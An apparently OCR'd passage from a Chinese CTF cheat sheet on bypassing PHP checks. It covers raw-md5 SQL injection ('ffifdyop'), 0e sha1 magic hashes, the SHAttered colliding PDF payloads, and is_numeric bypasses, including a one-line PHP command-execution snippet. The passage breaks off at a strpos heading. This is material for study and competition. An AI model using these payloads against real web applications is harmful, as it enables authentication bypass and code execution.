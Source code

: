 ```
$a=1;
while(!stripos(md5($a, true), '\'or\'')){
	$a=$a+1;
}
echo $a."\n";;
echo md5($a, true);
?>

常用的：ffifdyop，该字符串md5加密后若raw参数为True时会返回 'or'6<trash> (<trash>其实就是一些乱码和不可见字符，这里只要第一位是非零数字即可被判定为True，后面的<trash>会在MySQL将其转换成整型比较时丢掉)
```

**sha1()**

```
sha1碰撞，与上述一样
aaK1STfY
0e76658526655756207688271159624026011393
aaO8zKZF
0e89257456677279068558073954252716165668

数组绕过

array1=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1&array2=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1
```

**is_numeric**

```
用于检测变量是否为数字（包括浮点型）或数字字符串

十六进制绕过（0x开头）

数组绕过

科学计数法绕过（0e开头）

例如：常配合用语句  <?=`cat *`;  进行base64编码然后再转十六进制，去掉最后的=，刚好可以是科学计数法
```

**strpos()** 
